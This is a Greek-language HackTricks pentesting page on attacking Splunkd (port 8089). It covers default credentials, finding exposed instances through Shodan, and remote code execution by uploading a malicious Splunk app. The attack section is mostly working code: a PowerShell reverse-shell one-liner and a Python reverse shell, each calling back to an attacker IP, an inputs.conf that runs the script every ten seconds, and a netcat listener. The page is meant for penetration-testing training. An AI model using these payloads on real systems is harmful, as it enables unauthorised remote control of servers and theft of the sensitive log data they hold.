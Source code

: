# 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

Το Splunk είναι ένα **εργαλείο ανάλυσης καταγραφών** που παίζει κρίσιμο ρόλο στη **συλλογή, ανάλυση και οπτικοποίηση δεδομένων**. Ενώ ο αρχικός του σκοπός δεν ήταν να λειτουργεί ως εργαλείο **SIEM (Διαχείριση Πληροφοριών και Συμβάντων Ασφαλείας)**, έχει αποκτήσει δημοτικότητα στον τομέα της **παρακολούθησης ασφάλειας** και της **επιχειρηματικής ανάλυσης**.

Οι αναπτύξεις του Splunk χρησιμοποιούνται συχνά για την αποθήκευση **ευαίσθητων δεδομένων** και μπορούν να χρησιμεύσουν ως **πολύτιμη πηγή πληροφοριών** για πιθανούς επιτιθέμενους αν καταφέρουν να παραβιάσουν το σύστημα. **Προεπιλεγμένη θύρα:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
Ο **διακομιστής ιστού Splunk εκτελείται από προεπιλογή στη θύρα 8000**.
{% endhint %}

## Enumeration

### Free Version

Η δοκιμή του Splunk Enterprise μετατρέπεται σε **δωρεάν έκδοση μετά από 60 ημέρες**, η οποία **δεν απαιτεί αυθεντικοποίηση**. Δεν είναι ασυνήθιστο για τους διαχειριστές συστημάτων να εγκαθιστούν μια δοκιμή του Splunk για να το δοκιμάσουν, η οποία **στη συνέχεια ξεχνιέται**. Αυτό θα μετατραπεί αυτόματα στη δωρεάν έκδοση που δεν έχει καμία μορφή αυθεντικοποίησης, εισάγοντας μια τρύπα ασφαλείας στο περιβάλλον. Ορισμένες οργανώσεις μπορεί να επιλέξουν τη δωρεάν έκδοση λόγω περιορισμών προϋπολογισμού, χωρίς να κατανοούν πλήρως τις συνέπειες της έλλειψης διαχείρισης χρηστών/ρόλων.

### Default Credentials

Σε παλαιότερες εκδόσεις του Splunk, τα προεπιλεγμένα διαπιστευτήρια είναι **`admin:changeme`**, τα οποία εμφανίζονται βολικά στη σελίδα σύνδεσης.\
Ωστόσο, **η τελευταία έκδοση του Splunk** ορίζει **διαπιστευτήρια** **κατά τη διαδικασία εγκατάστασης**. Εάν τα προεπιλεγμένα διαπιστευτήρια δεν λειτουργούν, αξίζει να ελέγξετε για κοινές αδύναμες κωδικούς πρόσβασης όπως `admin`, `Welcome`, `Welcome1`, `Password123`, κ.λπ.

### Obtain Information

Αφού συνδεθούμε στο Splunk, μπορούμε να **περιηγηθούμε σε δεδομένα,** να εκτελέσουμε **αναφορές**, να δημιουργήσουμε **πίνακες ελέγχου**, **να εγκαταστήσουμε εφαρμογές** από τη βιβλιοθήκη Splunkbase και να εγκαταστήσουμε προσαρμοσμένες εφαρμογές.\
Μπορείτε επίσης να εκτελέσετε κώδικα: Το Splunk έχει πολλούς τρόπους **εκτέλεσης κώδικα**, όπως εφαρμογές Django server-side, REST endpoints, scripted inputs και alerting scripts. Μια κοινή μέθοδος για την απόκτηση απομακρυσμένης εκτέλεσης κώδικα σε έναν διακομιστή Splunk είναι μέσω της χρήσης ενός scripted input.

Επιπλέον, καθώς το Splunk μπορεί να εγκατασταθεί σε Windows ή Linux hosts, μπορούν να δημιουργηθούν scripted inputs για να εκτελούν Bash, PowerShell ή Batch scripts.

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

Μια προσαρμοσμένη εφαρμογή μπορεί να εκτελεί **Python, Batch, Bash ή PowerShell scripts**.\
Σημειώστε ότι **το Splunk έρχεται με εγκατεστημένο Python**, οπότε ακόμη και σε **συστήματα Windows** θα μπορείτε να εκτελείτε κώδικα python.

Μπορείτε να χρησιμοποιήσετε [**αυτό**](https://github.com/0xjpuff/reverse\_shell\_splunk) το πακέτο Splunk για να μας βοηθήσει. Ο **φάκελος `bin`** σε αυτό το repo έχει παραδείγματα για [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) και [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Ας προχωρήσουμε βήμα-βήμα.

Για να το επιτύχουμε αυτό, πρέπει πρώτα να δημιουργήσουμε μια προσαρμοσμένη εφαρμογή Splunk χρησιμοποιώντας την παρακάτω δομή φακέλων:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Ο **`bin`** φάκελος θα περιέχει οποιαδήποτε **σενάρια που σκοπεύουμε να εκτελέσουμε** (σε αυτή την περίπτωση, ένα **PowerShell** reverse shell), και ο προεπιλεγμένος φάκελος θα έχει το αρχείο `inputs.conf` μας. Το reverse shell μας θα είναι ένα **PowerShell one-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Το αρχείο [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) λέει στο Splunk **ποιο σενάριο να εκτελέσει** και οποιεσδήποτε άλλες συνθήκες. Εδώ ρυθμίζουμε την εφαρμογή ως ενεργοποιημένη και λέμε στο Splunk να εκτελεί το σενάριο κάθε 10 δευτερόλεπτα. Η διάρκεια είναι πάντα σε δευτερόλεπτα, και η είσοδος (σενάριο) θα εκτελείται μόνο αν αυτή η ρύθμιση είναι παρούσα.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Χρειαζόμαστε το `.bat` αρχείο, το οποίο θα εκτελείται όταν αναπτυχθεί η εφαρμογή και θα εκτελεί την PowerShell one-liner.

Το επόμενο βήμα είναι να επιλέξουμε `Install app from file` και να ανεβάσουμε την εφαρμογή.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Πριν ανεβάσουμε την κακόβουλη προσαρμοσμένη εφαρμογή, ας ξεκινήσουμε έναν listener χρησιμοποιώντας το Netcat ή το [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Στη σελίδα `Upload app`, κάντε κλικ στο browse, επιλέξτε το tarball που δημιουργήσαμε νωρίτερα και κάντε κλικ στο `Upload`. Μόλις **ανεβάσουμε την εφαρμογή**, θα **λάβουμε ένα reverse shell** καθώς η κατάσταση της εφαρμογής θα αλλάξει αυτόματα σε `Enabled`.

#### Linux

Αν ασχολούμασταν με έναν **Linux host**, θα έπρεπε να **επεξεργαστούμε το σενάριο Python `rev.py`** πριν δημιουργήσουμε το tarball και ανεβάσουμε την προσαρμοσμένη κακόβουλη εφαρμογή. Η υπόλοιπη διαδικασία θα ήταν η ίδια, και θα αποκτούσαμε μια σύνδεση reverse shell στον ακροατή Netcat μας και θα ξεκινούσαμε.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Στην παρακάτω σελίδα μπορείτε να βρείτε μια εξήγηση για το πώς αυτή η υπηρεσία μπορεί να καταχραστεί για να κλιμακώσει τα δικαιώματα και να αποκτήσει επιμονή:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

